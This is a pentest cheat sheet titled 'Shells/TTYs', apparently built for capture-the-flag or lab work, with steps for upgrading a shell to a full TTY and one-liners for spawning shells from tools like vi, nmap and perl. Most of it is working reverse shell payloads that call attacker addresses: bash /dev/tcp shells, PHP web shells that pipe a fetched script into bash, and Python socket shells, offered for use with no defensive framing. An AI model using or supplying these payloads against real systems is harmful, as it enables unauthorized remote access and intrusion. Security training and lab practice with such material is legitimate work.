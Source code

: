 ```yaml
---
icon: book-skull
---
```


# Shells/TTYs

{% hint style="info" %}
## <mark style="color:purple;">`TTYs`</mark>

### <mark style="color:purple;">Ncat</mark>

* <mark style="color:purple;">You can use the</mark> <mark style="color:orange;">**`rlwrap`**</mark> <mark style="color:purple;">utility to</mark> <mark style="color:purple;">enable line editing and history.</mark>
* <mark style="color:purple;">In order to have a full</mark> <mark style="color:orange;">**`TTY`**</mark> <mark style="color:purple;">**follow this steps:**</mark>

#### <mark style="color:orange;">`BASH`</mark><mark style="color:purple;">:</mark>

1. <mark style="color:purple;">`python3 -c 'import pty; pty.spawn("/bin/bash")'`</mark>
2. &#x20;<mark style="color:purple;">`CTRL+Z`</mark>
3. <mark style="color:purple;">`stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;`</mark>

<mark style="color:orange;">**`ZSH`**</mark><mark style="color:purple;">:</mark>

* <mark style="color:purple;">Same first two steps and then:</mark>

{% code overflow="wrap" %}
```bash
stty raw -echo; fg %1; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
{% endcode %}
{% endhint %}









Spawning Shells

```bash
python -c 'import pty; pty.spawn("/bin/sh")' 
python3 -c 'import pty; pty.spawn("/bin/sh")'

script -qc /bin/bash /dev/null

echo os.system('/bin/bash') 
/bin/sh -i 
perl -e 'exec "/bin/sh";' 
perl: exec "/bin/sh"; 
ruby: exec "/bin/sh" 
lua: os.execute('/bin/sh') 
exec "/bin/sh"; 
/bin/bash -i
exec "/bin/sh"                # (From within IRB) 
:!bash                        # (From within vi)
:set shell=/bin/bash:shell    # (From within vi) 
!sh                           # (From within nmap)
```





***



HTTP

```bash
With Url:
<http://10.10.14.14/$>(bash -c 'bash -i >& /dev/tcp/10.10.14.14/9001 0>&1')
```

PHP

```bash
#For index.php files
<?php
system("bash -c 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1'");
?>

#To copy inside a file
echo '<?php system("curl <http://10.10.14.16:443/rev.sh> | bash"); ?>' > hola.php

```

BASH + PHP

```bash
#Create the rev shell first

#!/bin/bash

bash -i >& /dev/tcp/10.10.14.16/443 0>&1

#Copy it in to file with at http server
echo '<?php system("curl <http://10.10.14.16:80/hey> | bash"); ?>'
```

Standard [shell.sh](http://shell.sh)

```c
bash -i >& /dev/tcp/10.10.14.18/1337 0>&1
```

Python

```bash
#IPv4
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.157",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
#Inside a file
echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\\"10.10.14.18\\",31337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\"/bin/sh\\",\\"-i\\"]);" > exploit.py
```
